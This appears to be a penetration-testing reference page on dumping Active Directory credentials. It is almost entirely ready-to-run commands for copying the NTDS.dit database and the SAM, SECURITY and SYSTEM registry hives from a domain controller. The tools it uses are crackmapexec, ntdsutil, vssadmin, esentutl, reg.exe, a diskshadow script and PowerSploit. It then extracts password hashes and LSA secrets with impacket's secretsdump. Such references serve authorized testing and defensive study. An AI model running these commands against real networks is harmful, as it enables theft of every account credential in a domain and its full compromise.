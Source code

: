 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# AD Credential Dumping
## References

## Overview

To extract NTDS data, you must have both of the following:
* NTDS.dit file
* SYSTEM hive (C:\Windows\System32\SYSTEM)

NTDS is stored by default in either of the following locations:
* `systemroot\NTDS\ntds.dit`
    * `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
* `systemroot\System32\ntds.dit`
	* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

## NTDS
### Extraction
#### From a Linux Machine

* <details><summary>crackmapexec (Click to expand)</summary><p>
	* Examples
		* Example 1: Use default `drsuapi` for NTDS dump

				cme smb $DOMAIN_CONTROLLER -u $DOMAIN_ADMIN -p $PASSWORD --ntds
		* Example 2: Specify `drsuapi`

				cme smb $DOMAIN_CONTROLLER -u $DOMAIN_ADMIN -p $PASSWORD --ntds drsuapi
		* Example 3: VSS

				cme smb $DOMAIN_CONTROLLER -u $DOMAIN_ADMIN -p $PASSWORD --ntds vss

#### From a Windows Machine
* <details><summary>ntdsutil.exe (Click to expand)</summary><p>
	* References
		* [https://adsecurity.org/?p=2398#CreateIFM](https://adsecurity.org/?p=2398#CreateIFM)
	* Notes
		* Dump ntds
	* Examples
		* Example 1: One single command

				ntdsutil.exe "ac i ntds" "ifm" "create full c:\" q q
		* Example 2: Interactive selection

				C:\>ntdsutil
			* Follow-up Commands

					ntdsutil: activate instance ntds
					ntdsutil: ifm
					ifm: create full c:\pentest
					ifm: quit
					ntdsutil: quit
* <details><summary>vshadow (Click to expand)</summary><p>
	* Examples
		1. Create the dump with vssadmin

				vssadmin create shadow /for=C :
		1. Copy the files

				Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
* <details><summary>Esentutl (Click to expand)</summary><p>
	* References
		* [https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/](https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/)
		* [https://twitter.com/bohops/status/1094810861095534592](https://twitter.com/bohops/status/1094810861095534592)
		* [https://twitter.com/egre55/status/985994639202283520](https://twitter.com/egre55/status/985994639202283520)
	* Examples
		* Example 1 - /vss

				esentutl.exe /y /vss c:\windows\NTDS\ntds.dit /d c:\Users\Administrator\Desktop\HIDDEN\ntds.dit
		* Example 2 - /vssrec

				esentutl.exe /y /vssrec c:\windows\NTDS\ntds.dit /d c:\Users\Administrator\Desktop\HIDDEN\ntds.dit
		* Restore NTDS.dit when it appears corrupted

				esentutl /p /o ntds.dit
* <details><summary>Reg.exe (Click to expand)</summary><p>
	* References
		* [https://pure.security/dumping-windows-credentials/](https://pure.security/dumping-windows-credentials/)
	* Examples
		* Example 1

				C:\> reg.exe save hklm\sam c:\temp\sam.save
		* Example 2

				C:\> reg.exe save hklm\security c:\temp\security.save
		* Example 3

				C:\> reg.exe save hklm\system c:\temp\system.save
* <details><summary>Diskshadow.exe (Click to expand)</summary><p>
	* References
		* Bohops - DiskShadow: The Return of VSS Evasion, Persistence, and Active Directory Database Extraction -<br />[https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
	* Notes
		* Exec functions don't require privileged access
	* Example 1 (Bohops Blog)
		1. Dump using LOLBIN

				diskshadow.exe /s c:\test\diskshadow.txt
			* Contents of diskshadow.txt

					set context persistent nowriters
					add volume c: alias someAlias
					create
					expose %someAlias% z:
					exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
					delete shadows volume %someAlias%
					reset
					exit
		1. Collect registry hive

				reg.exe save hklm\system c:\exfil\system.bak
* PowerShell
	* <details><summary>PowerSploit Module (Click to expand)</summary><p>
		* Examples
			* Example 1

					Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit

### NTDS Parsing
#### From a Linux Machine

* Parse SAM Hive
	* <details><summary>impacket's secretsdump.py (Click to expand)</summary><p>

			secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
* Parse NTDS Secrets
	* <details><summary>impacket's secretsdump.py (Click to expand)</summary><p>

			secretsdump.py -ntds ntds.dit -system system.bak LOCAL

#### LSA Secrets Dumping
* <details><summary>crackmapexec ([CrackMapExec Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/CrackMapExec.md)) (Click to expand)</summary><p>
	* `--lsa` flag

			crackmapexec smb $TARGET -u $USERNAME -p $PASSWORD --lsa